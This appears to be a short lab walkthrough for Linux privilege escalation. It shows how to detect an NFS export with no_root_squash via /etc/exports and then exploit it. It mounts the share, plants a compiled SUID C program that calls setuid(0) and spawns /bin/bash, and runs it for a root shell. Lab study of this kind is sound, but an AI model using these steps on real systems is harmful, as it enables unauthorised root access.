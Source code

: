[[Linux Privilege Escalation]]
**Detection**

  

Linux VM

  

1. In command line type: **cat /etc/exports**

2. From the output, notice that “no_root_squash” option is defined for the “/tmp” export.

  

**Exploitation**

  

Attacker VM

  

1. Open command prompt and type: **showmount -e 10.10.241.202**

2. In command prompt type: **mkdir /tmp/1**

3. In command prompt type: **mount -o rw,vers=2 10.10.241.202:/tmp /tmp/1**

In command prompt type:

**echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c**

4. In command prompt type: **gcc /tmp/1/x.c -o /tmp/1/x**

5. In command prompt type: **chmod +s /tmp/1/x**

  

Linux VM

  

1. In command prompt type: **/tmp/x**

2. In command prompt type: **id**